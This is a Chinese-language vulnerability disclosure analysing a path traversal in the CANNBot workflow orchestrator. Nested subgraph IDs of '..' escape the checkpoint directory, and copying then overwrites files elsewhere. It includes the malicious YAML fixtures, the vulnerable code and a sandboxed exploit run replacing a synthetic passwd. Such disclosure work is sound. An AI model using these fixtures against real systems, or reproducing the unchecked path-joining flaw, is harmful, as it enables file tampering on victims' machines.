

本文回答一个具体问题：攻击者控制恶意仓库中的 workflow YAML 后，为什么三个看似只是任务名称的 `id: ".."`，最终会让 CANNBot 把仓库文件复制到 `.workflow/checkpoints` 之外，并覆盖目标目录中的同名文件？

结论是：节点 ID 校验只禁止 `/`，没有禁止路径特殊分量 `..`；`TaskGraph` 又用 `/` 直接拼接多层节点 ID，生成 `../../../sensitive`。该任务 ID 随后未经目录边界校验就进入 checkpoint 目标路径。最后，`copy_tree()` 通过 GNU `cp -a` 把工作区顶层文件复制到已经逃逸的目录，并覆盖其中的同名文件。

实验只操作 `/tmp` 下的合成文件，不会访问或修改真实 `/etc/passwd`。

## Base

- 源码目录：`cann/cannbot`
- 源码提交：`9eb27086e7943063690ba8a4ce4ce736dbebbf10`
- 静态证据：`get_task.py`、`task_graph.py`、`orchestrator.py`
- 动态证据：本目录的 [`exp.sh`](<https://gist.githubusercontent.com/YLChen-007/046fc4415a2f4e0d97ef9ee570fad0ae/raw/0cc687cb5e62498629d5a8d4a5d688d3ef421c4d/exp.sh>) 和四个恶意 workflow fixture

下文函数名、行号和实验结论均以该提交及当前 EXP 为基准；源码事实、路径计算和动态观察分别说明。

## 漏洞整体攻击序列



图中的 `orchestrator.py（父进程）` 是正常命令入口；`get_task.py` 由它作为子进程启动。`orchestrator.copy_tree()` 并不表示控制流重新进入父进程：`get_task.py` 通过 `import orchestrator as orch` 在自己的进程内复用该函数。最关键的时序是 `copy_tree()` 先完成文件覆盖，`get_task.py` 随后才把任务批次返回给父进程，因此真实 Agent 和 rollback 都不是触发覆盖的必要条件。

## 威胁模型

攻击者控制恶意仓库中的 workflow YAML 和仓库文件，例如本实验中的 `passwd`。受害者需要主动使用该仓库作为 `work_dir`，并加载仓库中的恶意 workflow：

```bash
python3 orchestrator.py \
  --yaml <恶意仓库>/workflow.yaml \
  --work-dir <恶意仓库> \
  --prompt '<任务>' \
  --dry-run
```

### 如何调用  orchestrator.py 并指定相关参数
> Codex 按 ops-direct-invoke Skill 生成后，显式传给 run_workflow.py，再由它拼进 orchestrator.py 的参数列表

仅仅下载仓库不会触发漏洞。攻击者也不能借此绕过操作系统权限：CANNBot 进程必须对逃逸后的目标目录具有写权限。

本漏洞不依赖 prompt injection，不要求真实 Agent 执行攻击指令，也不要求真正发生 rollback。文件覆盖发生在调度器为 rollback 目标创建初始 checkpoint 时。

## 恶意 workflow 如何构造任务 ID

EXP 使用三层 ID 为 `..` 的 subgraph。最外层 [`workflow.yaml`](<https://gist.githubusercontent.com/YLChen-007/046fc4415a2f4e0d97ef9ee570fad0ae/raw/a10881220fdf8a4546f8155bd5a2c16baf91100e/workflow.yaml>) 内容为：

```yaml
workflow: id-path-traversal-exploit
max_parallel: 1
max_rollbacks: 1
nodes:
  - id: ".."
    task_type: subgraph
    file: level1.yaml
    depends_on: []
```

[`level1.yaml`](<https://gist.githubusercontent.com/YLChen-007/046fc4415a2f4e0d97ef9ee570fad0ae/raw/4c97e57cc0a5fc50eef7805bf7ddfda496286ae1/level1.yaml>) 和 [`level2.yaml`](<https://gist.githubusercontent.com/YLChen-007/046fc4415a2f4e0d97ef9ee570fad0ae/raw/8bd18ebc34e1d26d713f91abe169ae8fb8acdab3/level2.yaml>) 分别再声明一个 `id: ".."` 的 subgraph。最深层 [`level3.yaml`](<https://gist.githubusercontent.com/YLChen-007/046fc4415a2f4e0d97ef9ee570fad0ae/raw/fa9e4be88710982b3626e44dbebc10f574b9af39/level3.yaml>) 包含两个普通任务：

```yaml
nodes:
  - id: sensitive
    task_type: normal
    # 其余普通任务字段省略
    depends_on: []
    on_exhaust: exit

  - id: trigger
    task_type: normal
    # 其余普通任务字段省略
    depends_on:
      - sensitive
    on_exhaust: rollback
    rollback_to: sensitive
```

`trigger` 依赖 `sensitive`，所以 `rollback_to: sensitive` 是其上游任务，能够通过现有 rollback 关系校验。这个配置的作用不是实际触发 rollback，而是让 `sensitive` 被登记成“需要预先创建 checkpoint 的目标”。

## 根因一：ID 校验允许路径特殊分量 `..`

[`get_task.py::_validate_node_structure()`](https://gitcode.com/cann/cannbot/blob/9eb27086e7943063690ba8a4ce4ce736dbebbf10/harness/workflow-orchestrator/scripts/get_task.py#L139-L179) 首先要求 ID 是非空字符串，然后只禁止 ID 包含 `/`：

```python
for k in ("id", "file") if tt == "subgraph" else STR_KEYS:
    if not is_str(node[k]):
        return None, "%s.%s 必须是非空 str" % (where, k)

# ...

if "/" in node["id"]:
    return None, "%s.id 不能包含 '/'（该字符仅用于子图命名空间分隔）" % where
```

`..` 是非空字符串且不含 `/`，因此根 workflow 和每一层 subgraph 都能通过该检查。`load_subgraph()` 对嵌套 YAML 复用相同的 `validate_node_set()`，所以子图中的 `id: ".."` 也不会被拒绝。

这里的关键问题不是 ID 自身含有斜杠，而是 `..` 在稍后进入文件系统路径时会被操作系统解释为“父目录”。

## 根因二：多层 ID 被直接拼成 `../../../sensitive`

[`task_graph.py::TaskGraph._add_nodes()`](https://gitcode.com/cann/cannbot/blob/9eb27086e7943063690ba8a4ce4ce736dbebbf10/harness/workflow-orchestrator/scripts/task_graph.py#L80-L106) 使用父 ID 加 `/` 作为前缀，再直接拼接当前节点的局部 ID：

```python
prefix = parent + "/" if parent else ""
tid = prefix + node["id"]
```

加载子图后，[`TaskGraph._expand()`](https://gitcode.com/cann/cannbot/blob/9eb27086e7943063690ba8a4ce4ce736dbebbf10/harness/workflow-orchestrator/scripts/task_graph.py#L108-L143) 又把当前完整 `tid` 作为下一层的 `parent`：

```python
self.members[tid] = self._add_nodes(children, tid, chain + (real_path,))
```

因此 EXP 中的 ID 逐层变化如下：

| YAML 层级 | `parent` | 当前局部 ID | 生成的完整 `tid` |
|---|---|---|---|
| `workflow.yaml` | 空 | `..` | `..` |
| `level1.yaml` | `..` | `..` | `../..` |
| `level2.yaml` | `../..` | `..` | `../../..` |
| `level3.yaml` | `../../..` | `sensitive` | `../../../sensitive` |

这一步只是字符串拼接，没有调用路径规范化，也没有检查命名空间分量是否为 `.` 或 `..`。结果是本应只用于任务图索引的 `tid` 已经具有目录穿越语义。

## 根因三：完整任务 ID 直接进入 checkpoint 路径

### 将恶意 ID 登记为 checkpoint 目标

[`get_task.py::collect_checkpoint_targets()`](https://gitcode.com/cann/cannbot/blob/9eb27086e7943063690ba8a4ce4ce736dbebbf10/harness/workflow-orchestrator/scripts/get_task.py#L294-L317) 查找配置了 `on_exhaust: rollback` 的节点，并把所属 subgraph ID 与局部 `rollback_to` 再次通过 `/` 拼接：

```python
for subgraph_id, children in subs.items():
    for child in children:
        if child.get("on_exhaust") == "rollback" and is_str(
            child.get("rollback_to")
        ):
            targets.add("%s/%s" % (subgraph_id, child["rollback_to"]))
```

在最深层 subgraph 中：

```text
subgraph_id = ../../..
rollback_to = sensitive
```

所以 `checkpoint_targets` 中出现 `../../../sensitive`，正好与 `sensitive` 任务在 `TaskGraph` 中的完整 `tid` 相同。

### 在派发 Agent 之前创建 checkpoint

调度器选出第一个 execute 任务后，会先调用 [`create_checkpoints()`](https://gitcode.com/cann/cannbot/blob/9eb27086e7943063690ba8a4ce4ce736dbebbf10/harness/workflow-orchestrator/scripts/get_task.py#L320-L338)，然后才把任务批次返回给 `orchestrator.py`：

```python
if batch:
    create_checkpoints(
        work_dir, status, status_path, execute_ids, set(checkpoint_targets)
    )
    print(json.dumps(batch, ensure_ascii=False, indent=2))
    return 0
```

`create_checkpoints()` 直接把未经净化的 `tid` 作为最后一个路径分量：

```python
checkpoint = os.path.join(work_dir, ".workflow", "checkpoints", tid)
orch.copy_tree(work_dir, checkpoint)
```

代码没有在复制前拒绝 `tid` 中的 `.` 或 `..`，也没有对目标执行 `realpath()` 后确认其仍位于 `.workflow/checkpoints`，更没有用 `commonpath()` 等方式验证目录包含关系。

因此当 `tid` 为 `../../../sensitive` 时，传入 `copy_tree()` 的目标是：

```text
<work_dir>/.workflow/checkpoints/../../../sensitive
```

EXP 中 `work_dir` 是 `<sandbox>/malicious-repo`。操作系统解析三个 `..` 后，实际目录为：

```text
<sandbox>/malicious-repo/.workflow/checkpoints/../../../sensitive
→ <sandbox>/sensitive
```

这就是发生路径穿越的准确位置：`get_task.py` 的 `create_checkpoints()` 构造目标路径时，把具有 `..` 语义的任务 ID 当成了可信路径分量。

## 文件在哪里被覆盖

路径穿越决定了错误的目标目录，真正执行文件复制的是 [`orchestrator.py::copy_tree()`](https://gitcode.com/cann/cannbot/blob/9eb27086e7943063690ba8a4ce4ce736dbebbf10/harness/workflow-orchestrator/scripts/orchestrator.py#L242-L248)：

```python
def copy_tree(src, dst):
    os.makedirs(dst, exist_ok=True)
    for name in os.listdir(src):
        if name == WORKFLOW_DIR_NAME:
            continue
        subprocess.run(
            [CP, "-a", "--reflink=auto", os.path.join(src, name), dst + "/"],
            check=True,
        )
```

变量在本 EXP 中对应为：

```text
src = <sandbox>/malicious-repo
dst = <sandbox>/malicious-repo/.workflow/checkpoints/../../../sensitive
    = <sandbox>/sensitive
```

当循环遍历到恶意仓库顶层的 `passwd` 时，实际复制语义等价于：

```bash
cp -a --reflink=auto \
  <sandbox>/malicious-repo/passwd \
  <sandbox>/sensitive/
```

目标目录中已经存在 `<sandbox>/sensitive/passwd`，而 GNU `cp -a` 会将源文件复制到目标目录的同名路径，因此原文件内容被恶意仓库版本替换。

这里不是 `clear_tree()` 删除后再恢复，也不是 rollback 执行阶段覆盖。`create_checkpoints()` 在目标任务第一次被派发前调用 `copy_tree()`，单独的 checkpoint 创建动作就足以完成覆盖。

另外，`copy_tree()` 会遍历工作区的所有顶层条目，仅跳过 `.workflow`。因此源码行为是“把恶意仓库顶层内容合并复制到逃逸目录”，EXP 只是选择其中的 `passwd` 作为容易观察的覆盖证据。

## 从正常入口到覆盖动作的调用链

EXP 没有直接调用 `get_task.py` 或 `copy_tree()`，而是从正常 [`orchestrator.py::main()`](https://gitcode.com/cann/cannbot/blob/9eb27086e7943063690ba8a4ce4ce736dbebbf10/harness/workflow-orchestrator/scripts/orchestrator.py#L707-L729) 入口启动：

```text
orchestrator.py --yaml ... --work-dir ... --dry-run
  → prepare_workflow()
  → _init_workflow()
  → init_status.py
  → loop()
  → ask_get_task()
  → get_task.py
  → TaskGraph.materialize()
  → collect_checkpoint_targets()
  → create_checkpoints()
  → orchestrator.copy_tree()
  → cp -a 源文件到逃逸目录
```

`--dry-run` 只让 `run_agent()` 使用模拟回复，并不跳过 `get_task.py`、checkpoint 创建或文件复制。更重要的是，`create_checkpoints()` 发生在 `get_task.py` 输出首个任务批次之前，所以覆盖动作本身不需要真实 Provider 或 Agent。

## 有界端到端验证

### 验证基线

- 源码目录：`cann/cannbot`
- 已验证提交：`9eb27086e7943063690ba8a4ce4ce736dbebbf10`
- EXP：[`exp.sh`](<https://gist.githubusercontent.com/YLChen-007/046fc4415a2f4e0d97ef9ee570fad0ae/raw/0cc687cb5e62498629d5a8d4a5d688d3ef421c4d/exp.sh>)
- 启动入口：真实 `orchestrator.py`
- checkpoint I/O：真实 `get_task.py`、`copy_tree()` 与 GNU `cp`
- Agent：`--dry-run`，不启动真实 Provider 或模型
- 目标：`mktemp` 创建的 `/tmp/cannbot-id-path-traversal.*` 沙箱

实验不会访问或修改真实 `/etc/passwd`。其中的 `sensitive/passwd` 只是用于观察覆盖结果的合成文件。

### 实验布局

```text
<sandbox>/
├── malicious-repo/
│   ├── workflow.yaml
│   ├── level1.yaml
│   ├── level2.yaml
│   ├── level3.yaml
│   └── passwd             # 攻击者文件
└── sensitive/
    └── passwd             # 模拟敏感文件
```

### 运行

```bash
cd cann/vul/4-id-path-traversal
bash exp.sh
```

保留 `/tmp` 下的完整证据目录：

```bash
KEEP_ARTIFACTS=1 bash exp.sh
```

关键输出如下，实际运行时 `<sandbox>` 会显示为完整的随机临时目录：

```text
=== BEFORE: simulated sensitive directory passwd ===
$ cat <sandbox>/sensitive/passwd
sensitive-user:x:1000:1000:SIMULATED-ORIGINAL:/home/sensitive:/bin/false

=== PAYLOAD: malicious repository passwd ===
$ cat <sandbox>/malicious-repo/passwd
attacker:x:0:0:REPLACED-BY-MALICIOUS-REPO:/root:/bin/sh

=== AFTER: simulated sensitive directory passwd ===
$ cat <sandbox>/sensitive/passwd
attacker:x:0:0:REPLACED-BY-MALICIOUS-REPO:/root:/bin/sh

checkpoint task id:        ../../../sensitive
escaped checkpoint target: <sandbox>/sensitive
[PASS] the malicious repository passwd replaced the same-name passwd in the simulated sensitive directory.
```

EXP 还会自动断言：

- `status.json` 中的 `checkpoint_targets` 精确等于 `../../../sensitive`；
- 规范化后的 checkpoint 目标精确等于沙箱内的 `sensitive` 目录；
- 覆盖后的 `sensitive/passwd` 与恶意仓库中的内容相同；
- 没有真实 Agent session；
- 日志中没有 rollback 事件。

## 影响与限制

源码和 EXP 支持的直接影响是：攻击者可以让 checkpoint 创建阶段把恶意工作区的顶层内容复制到预期 checkpoint 根目录之外，并覆盖 CANNBot 进程有权限写入目录中的同名文件。

影响上限取决于三个条件：

1. 受害者是否加载攻击者控制的 workflow；
2. 恶意任务 ID 最终能解析到哪个目录；
3. CANNBot 进程对该目录拥有什么文件系统权限。

本实验没有证明或声称：

- 仅下载或浏览仓库即可触发；
- 能绕过 Unix 文件权限、容器边界或其他系统隔离；
- 能直接把 checkpoint 目标设为一个现有普通文件，复制目标在这里是目录；
- 目标目录中的无关文件会被删除，`copy_tree()` 的行为是合并并覆盖同名条目；
- 被覆盖文件一定会被执行；
- 已经获得代码执行、提权或容器逃逸；
- 真实 `/etc/passwd` 或任何生产数据受到影响。

## 结论

该漏洞由三个连续的信任错误组成：节点 ID 校验允许 `..`，任务图把多层 ID 直接拼接成带路径语义的完整 ID，checkpoint 创建又把这个 ID 未经边界校验地交给文件复制函数。`copy_tree()` 中的 `cp -a` 是最终覆盖同名文件的动作，而漏洞触发点位于首次任务派发前的 checkpoint 创建阶段，不需要真实 Agent、prompt injection 或实际 rollback。
